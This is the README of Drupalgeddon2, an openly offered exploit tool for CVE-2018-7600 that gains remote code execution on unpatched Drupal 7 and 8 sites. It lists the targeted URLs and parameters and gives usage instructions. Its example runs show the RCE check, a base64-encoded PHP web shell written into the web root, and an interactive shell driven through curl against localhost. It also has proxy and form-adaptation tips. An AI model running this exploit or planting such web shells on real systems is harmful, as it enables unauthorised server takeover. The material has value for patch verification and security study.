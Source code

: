 # CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `exec` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- With or without a writeable web root or sub-directories

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_


- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo MEWQTESC
[+] Result : MEWQTESC<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt (200)
[+] Drupal!: 7.55
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo FLUBCTEZ
[+] Result : FLUBCTEZ
[{"command":"settings","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> whoami
www-data
ubuntu140045x64-drupal>>
```


#### File-Less Method

If you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
writeshell = true
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = "192.168.0.130"
proxy_port = 8080
```


- - -


## Troubleshooting:

- Sometimes, websites may redirect to another path where Drupal exists (such as `30x` responses). Solution: Make sure you are using the correct Drupal path.
- Drupal v7.x - If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit. Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability.


- - -


## Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- cURL commands/sample/PoC ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600
